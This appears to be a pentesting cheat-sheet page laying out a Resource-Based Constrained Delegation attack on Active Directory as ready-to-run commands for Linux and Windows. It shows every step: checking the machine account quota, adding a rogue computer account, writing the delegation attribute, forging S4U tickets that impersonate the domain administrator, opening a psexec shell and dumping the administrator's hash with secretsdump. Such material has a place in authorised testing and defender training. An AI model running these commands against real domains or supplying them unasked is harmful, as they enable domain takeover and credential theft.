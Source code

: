 ```yaml
---
title: "RBCD Attack"
date: 2024-7-30
tags: ["GenericAll", "active driectory", "ad", "Windows", "rbcd", "resource-based constrained delegation", "s4u", "impersonate"]
---
```


---
### RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Check machine account quota

<div>

```bash
nxc ldap 10.10.11.10 -u <USER> -p <PASSWORD> -M MAQ
```

</div>

#### 1. Add a fake computer

<div>

```bash
impacket-addcomputer -computer-name 'EvilComputer' -computer-pass 'password' -dc-ip 10.10.11.10 <DOMAIN>/<USER>:<PASSWORD>
```

</div>

#### 2. Rbcd attack

<div>

```bash
impacket-rbcd -delegate-to <TARGET_COMPUTER>$ -delegate-from EvilComputer$ -dc-ip <DC> -action 'write' <DOMAIN>/<USER>:<PASSWORD>
```

</div>

#### 3. Impersonate

<div>

```bash
sudo ntpdate -s <DC> && impacket-getST -spn cifs/<TARGET_DOMAIN> -impersonate administrator -dc-ip <DC> '<DOMAIN>/EvilComputer:password'
```

</div>

#### 4. Import ticket

<div>

```bash
export KRB5CCNAME=administrator@cifs_<TARGET_DOMAIN>@<DOMAIN>.ccache
```

</div>

#### 5. Post-Attack

<div>

```bash
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```bash
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Check machine account quota

<div>

```powershell
Get-DomainObject -Identity 'DC=<EXAMPLE>,DC=<COM>' | select ms-ds-machineaccountquota
```

</div>

#### 3. Import Powermad.ps1

<div>

```powershell
. .\Powermad.ps1
```

```powershell
New-MachineAccount -MachineAccount EvilComputer -Password $(ConvertTo-SecureString 'password' -AsPlainText -Force)
```

</div>

<small>*Ref: [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1)*</small>

#### 4. Attack

<div>

```powershell
$fakesid = Get-DomainComputer EvilComputer | select -expand objectsid
```

```powershell
$fakesid
```

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```powershell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```powershell
$SD.GetBinaryForm($SDBytes, 0)
```

```powershell
Get-DomainComputer TARGET_COMPUTER$ | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

</div>

#### 5. Check SecurityIdentifier is now fakesid 

<div>

```powershell
$RawBytes = Get-DomainComputer TARGET_COMPUTER -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```

```powershell
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```

```powershell
$Descriptor.DiscretionaryAcl
```

</div>

#### 6. Impersonate

<div>

```powershell
.\rubeus.exe hash /password:password /user:EvilComputer /domain:<DOMAIN>
```

```powershell
.\rubeus.exe s4u /user:EvilComputer$ /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/<TARGET_DOMAIN> /ptt /nowrap
```

</div>

#### 7. Convert to ccache format

<div>

```bash
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

```bash
export KRB5CCNAME=secrets.ccache
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

</div>

#### 8. Post-Attack

<div>

```bash
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```bash
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

</div>

{{< /tabcontent >}}

<br>
